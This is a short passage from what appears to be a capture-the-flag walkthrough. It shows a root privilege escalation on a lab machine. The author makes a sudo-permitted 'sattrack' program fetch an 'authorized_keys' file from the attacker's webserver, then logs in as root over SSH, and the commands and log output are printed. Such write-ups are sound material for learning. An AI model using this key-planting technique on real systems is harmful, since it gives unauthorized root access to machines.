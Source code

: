 
When I run this, there’s a a hit at my webserver:

```
10.10.11.216 - - [31/Aug/2023 21:16:10] "GET /authorized_keys HTTP/1.1" 200 -

```

It reports that it got the file, but then complains that it wasn’t a valid file, likely because it isn’t formatted as expected.

```

jovian@jupiter:~$ sudo sattrack 
Satellite Tracking System
Get:0 http://10.10.14.6/authorized_keys
tlefile is not a valid file
jovian@jupiter:~$ 

```

Still, it must have written, as I can now log in as root over SSH:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@jupiter.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)
...[snip]...
root@jupiter:~#

```